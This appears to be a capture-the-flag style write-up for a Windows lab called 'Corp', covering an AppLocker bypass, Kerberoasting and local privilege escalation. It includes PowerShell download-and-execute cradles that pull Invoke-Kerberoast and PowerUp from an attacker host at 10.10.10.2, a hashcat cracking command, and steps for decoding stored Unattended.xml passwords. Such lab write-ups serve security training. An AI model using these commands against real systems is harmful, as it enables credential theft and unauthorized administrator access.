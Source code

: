 # Corp

### Bypassing Applocker

AppLocker is an application whitelisting technology introduced with Windows 7. It allows restricting which 
programs users can execute based on the programs path, publisher, and hash.

There are many ways to bypass AppLocker.

If AppLocker is configured with default AppLocker rules, we can bypass it by placing our executable in the 
following directory: C:\Windows\System32\spool\drivers\color - This is whitelisted by default. 

Just like Linux bash, Windows Powershell saves all previous commands into a file called ConsoleHost_history. 
This is located at 
`%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

### Kerberoasting

First step is to enumerate Windows. If we run `setspn -T medin -Q */*` we can extract all accounts in 
the SPN.

SPN is the Service Principal Name, and is the mapping between service and account.

Now we have seen there is an SPN for a user, we can use Invoke-Kerberoast and get a ticket.

Lets first download the Powershell [Invoke-Kerberoast](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1) and host it on a web server. Load it into memory
with Invoke-Expression:

```
powershell -ep bypass
Invoke-Expression(New-Object Net.WebClient).DownloadString('http://10.10.10.2:80/kerberoast.ps1')
```

Extract the SPN ticket:

`Invoke-Kerberos -OutputFormat hashcat | Format-List`

Next, use hashcat to bruteforce the password

`hashcat -m 13100 -a 0 hash.txt rockyou.txt`

### Privilege Escalation

We will use a PowerShell enumeration script to examine the Windows machine. We can then determine the best 
way to get Administrator access.

We will load [PowerUp1.ps1](https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1) into memory for enumerating any weakness to abuse for local privilege escalation.

```
powershell -ep bypass;
iex(New-Object Net.WebClient).DownloadString('http://10.10.10.2:80/PowerUp.ps1')

Invoke-AllChecks
```

The script has identified several ways to get Administrator access. The first being to bypassUAC and the 
second is UnattendedPath. We will be exploiting the UnattendPath way.

"Unattended Setup is the method by which original equipment manufacturers (OEMs), corporations, and other users install Windows NT in unattended mode." [Read more about it here](https://support.microsoft.com/en-us/topic/77504e1d-2b75-5be1-3eef-cec3617cc461).

It is also where users passwords are stored in base64 encoding. Navigate to 
`C:\Windows\Panther\Unattend\Unattended.xml.` and decode the password then login as the Administrator:

`[Text.Encoding]::Utf8.GetString([Convert]::FromBase64String(('YmFzZTY0IGVuY29kZWQgc3RyaW5nIGhlcmUK')))`
